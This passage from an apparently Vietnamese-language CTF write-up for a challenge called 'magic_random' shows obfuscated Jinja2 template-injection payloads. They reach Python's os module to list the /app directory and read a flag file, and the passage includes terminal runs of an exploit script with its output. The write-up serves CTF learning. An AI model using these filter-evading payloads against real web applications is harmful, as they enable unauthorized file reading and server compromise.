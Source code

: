 5. Tìm được đường dir `/app` rồi thì kê các file có trong nó:

```powershell
# {{(session.__init__.__globals__.t.__dict__[(((3>5)and(2<3)).__repr__()[3]).__add__(session.__init__.__globals__.t.__spec__.origin[-1]).__add__(((3>5)and(2<3)).__repr__()[3])]).modules[(none.__repr__())[1].__add__(((3>5)and(2<3)).__repr__()[3])].listdir((session.__init__.__globals__.__spec__.origin)[0].__add__(((3>5)and(2<3)).__repr__()[1]).__add__((session.__init__.__globals__.__spec__.origin)[-2]).__add__((session.__init__.__globals__.__spec__.origin)[-2]))}}

PS C:\Users\biscuit\Downloads\magic_random> & C:/Users/biscuit/AppData/Local/Microsoft/WindowsApps/python3.10.exe c:/Users/biscuit/Downloads/magic_random/exploit1.py --expr "{{(session.__init__.__globals__.t.__dict__[(((3>5)and(2<3)).__repr__()[3]).__add__(session.__init__.__globals__.t.__spec__.origin[-1]).__add__(((3>5)and(2<3)).__repr__()[3])]).modules[(none.__repr__())[1].__add__(((3>5)and(2<3)).__repr__()[3])].listdir((session.__init__.__globals__.__spec__.origin)[0].__add__(((3>5)and(2<3)).__repr__()[1]).__add__((session.__init__.__globals__.__spec__.origin)[-2]).__add__((session.__init__.__globals__.__spec__.origin)[-2]))}}"
preimage: d_0[a(>(n_>]._gi.i_35r___1<t)).(_aa>itd_{_d]tn)_<n)_.._5<)nar3_(r()__sbt_gstl.e_(p[_i.[.ili[)__l3_es)(g_rmsr.p_1sg2s(n_e__.__e_.rn(._3._poe[(___{(n_(dpd(gdn(iie5_a.d5ol__s(i)d3[.]_)]se22__[as3_a___de.._ionco_ssood__n_))esr).)oiadod]_b>_ip_[_(p)lt3.no_ari-ceb_n_s((_.d__t(o___.__l]at._iln_ii_i_e)d.csess)))(_b)_os)3___rt_)13))i_.nr2o_o]r_l_a[_idn(r_esg.s(ai_d_u(i..r_idls_sbi(3)_gno2]op))(2o_.]il___)ss](p_.-ec_p..en<_)(i)n_cs__-.._]_e}._ga3a}(ndnl[[_ir(_rag(sld__s  
<i>No magic name [&#39;flag_3i3Bqp92KMSCXkT.txt&#39;, &#39;static&#39;, &#39;templates&#39;, &#39;app.py&#39;] here, try again!</i>
```

6. Mình thấy có file flag tên là `flag_3i3Bqp92KMSCXkT.txt` trong `/app`, giờ thì đọc nó nữa thôi là solve bài này:

```powershell
# {{(session.__init__.__globals__.t.__dict__[(((3>5)and(2<3)).__repr__()[3]).__add__(session.__init__.__globals__.t.__spec__.origin[-1]).__add__(((3>5)and(2<3)).__repr__()[3])]).modules[(none.__repr__())[1].__add__(((3>5)and(2<3)).__repr__()[3])].read((session.__init__.__globals__.t.__dict__[(((3>5)and(2<3)).__repr__()[3]).__add__(session.__init__.__globals__.t.__spec__.origin[-1]).__add__(((3>5)and(2<3)).__repr__()[3])]).modules[(none.__repr__())[1].__add__(((3>5)and(2<3)).__repr__()[3])].open(((session.__init__.__globals__.__spec__.origin)[0].__add__(((3>5)and(2<3)).__repr__()[1]).__add__((session.__init__.__globals__.__spec__.origin)[-2]).__add__((session.__init__.__globals__.__spec__.origin)[-2])).__add__((session.__init__.__globals__.__spec__.origin)[0]).__add__((session.__init__.__globals__.t.__dict__[(((3>5)and(2<3)).__repr__()[3]).__add__(session.__init__.__globals__.t.__spec__.origin[-1]).__add__(((3>5)and(2<3)).__repr__()[3])]).modules[(none.__repr__())[1].__add__(((3>5)and(2<3)).__repr__()[3])].listdir((session.__init__.__globals__.__spec__.origin)[0].__add__(((3>5)and(2<3)).__repr__()[1]).__add__((session.__init__.__globals__.__spec__.origin)[-2]).__add__((session.__init__.__globals__.__spec__.origin)[-2]))[0]),(session.__init__.__globals__.t.__dict__[(((3>5)and(2<3)).__repr__()[3]).__add__(session.__init__.__globals__.t.__spec__.origin[-1]).__add__(((3>5)and(2<3)).__repr__()[3])]).modules[(none.__repr__())[1].__add__(((3>5)and(2<3)).__repr__()[3])].O_RDONLY),8192)}}

PS C:\Users\biscuit\Downloads\magic_random> & C:/Users/biscuit/AppData/Local/Microsoft/WindowsApps/python3.10.exe c:/Users/biscuit/Downloads/magic_random/exploit1.py --expr "{{(session.__init__.__globals__.t.__dict__[(((3>5)and(2<3)).__repr__()[3]).__add__(session.__init__.__globals__.t.__spec__.origin[-1]).__add__(((3>5)and(2<3)).__repr__()[3])]).modules[(none.__repr__())[1].__add__(((3>5)and(2<3)).__repr__()[3])].read((session.__init__.__globals__.t.__dict__[(((3>5)and(2<3)).__repr__()[3]).__add__(session.__init__.__globals__.t.__spec__.origin[-1]).__add__(((3>5)and(2<3)).__repr__()[3])]).modules[(none.__repr__())[1].__add__(((3>5)and(2<3)).__repr__()[3])].open(((session.__init__.__globals__.__spec__.origin)[0].__add__(((3>5)and(2<3)).__repr__()[1]).__add__((session.__init__.__globals__.__spec__.origin)[-2]).__add__((session.__init__.__globals__.__spec__.origin)[-2])).__add__((session.__init__.__globals__.__spec__.origin)[0]).__add__((session.__init__.__globals__.t.__dict__[(((3>5)and(2<3)).__repr__()[3]).__add__(session.__init__.__globals__.t.__spec__.origin[-1]).__add__(((3>5)and(2<3)).__repr__()[3])]).modules[(none.__repr__())[1].__add__(((3>5)and(2<3)).__repr__()[3])].listdir((session.__init__.__globals__.__spec__.origin)[0].__add__(((3>5)and(2<3)).__repr__()[1]).__add__((session.__init__.__globals__.__spec__.origin)[-2]).__add__((session.__init__.__globals__.__spec__.origin)[-2]))[0]),(session.__init__.__globals__.t.__dict__[(((3>5)and(2<3)).__repr__()[3]).__add__(session.__init__.__globals__.t.__spec__.origin[-1]).__add__(((3>5)and(2<3)).__repr__()[3])]).modules[(none.__repr__())[1].__add__(((3>5)and(2<3)).__repr__()[3])].O_RDONLY),8192)}}"
```